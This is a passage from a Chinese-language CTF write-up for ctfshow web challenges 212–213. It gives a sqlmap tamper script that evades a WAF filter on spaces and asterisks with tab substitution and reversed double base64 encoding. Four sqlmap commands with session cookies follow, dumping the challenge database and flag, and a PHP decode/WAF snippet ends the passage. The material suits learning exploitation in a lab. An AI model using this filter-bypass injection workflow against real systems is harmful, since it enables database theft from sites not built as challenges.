 相比上题，又过滤了星号`*`，注释绕过空格用不了了。在前面做题时，已知`%0a,%0b,%0c,%0d`都可以绕过空格。拿大佬的脚本，整合了绕过空格和编码的功能，写到show-web212.py里待会使用

```python
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
import base64
__priority__ = PRIORITY.LOW
 
def dependencies():
    pass

# 主要功能部分
def tamper(payload, **kwargs):
    retVal = payload
    if payload:
        retVal = retVal.replace(' ',chr(0x09))
        retVal = base64.b64encode(base64.b64encode(retVal[::-1].encode())[::-1]).decode()
 
    return retVal
```

```bash
# 爆数据库 ctfshow_web
sqlmap -u "https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --dbs 
# 爆表 ctfshow_flavis
sqlmap -u "https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --dbs -D ctfshow_web --tables
# 爆字段 ctfshow_flagxsa
sqlmap -u "https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web212.py --dbs -D ctfshow_web --tables -T ctfshow_flavis --columns
# 爆金币
sqlmap -u "https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web212.py --dbs -D ctfshow_web --tables -T ctfshow_flavis --columns -C ctfshow_flagxsa --dump
```

## web 213

```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```
